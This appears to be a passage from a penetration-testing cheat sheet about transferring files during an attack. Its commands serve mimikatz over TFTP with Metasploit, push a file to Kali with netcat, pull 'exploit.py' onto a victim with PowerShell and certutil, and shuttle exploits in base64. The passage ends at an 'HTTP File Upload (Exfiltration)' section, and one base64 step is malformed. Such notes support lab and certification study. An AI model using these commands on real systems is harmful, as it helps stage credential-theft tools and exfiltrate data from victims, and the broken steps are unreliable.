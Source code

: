 Using MSF.

Start MSF before these steps:

Inside MSF

1. `use auxiliary/server/tftp`
2. `set TFTPROOT /usr/share/mimikatz/Win32/`
3. `run`

Inside a terminal

4. `tftp -i 10.10.10.10 GET mimikatz.exe`

### NetCat (Windows to Kali)

1. Windows: `nc -nv 10.11.0.61 4444 < bank-account.zip`

2. Linux: `nc -nlvp 4444 > bank-account.zip`

### PowerShell

```ps
Invoke-WebRequest -Uri http://127.0.0.1/exploit.py -OutFile C:\Users\Victim\exploit.py
```

Without an interactive powershell session:

```ps
# Create wget.ps1
$client = New-Object System.Net.WebClient
$path = "C:\path\to\save\file.txt"
$client.DownloadFile($url, $path)
```

### Base64 (Linux -> Linux)

Local Host:

1. `$(echo "cat /path/to/exploit.py | base64") > encoded.b64`
2. Transfer `encoded.b64` to the remote server via `nc` or otherwise.

Remote Server - Linux:

3. `cat /path/to/encoded.b64 | base64 -d > exploit.py`

Remove Server - Powershell

### Certutil

```
certutil.exe -urlcache -split -f "http://ip.for.kali.box/file-to-get.zip" name-to-save-as.zip
```

### HTTP File Upload (Exfiltration)

Upload:

1. Create upload.php file in attacking machine webroot, `/var/www/html` by default.

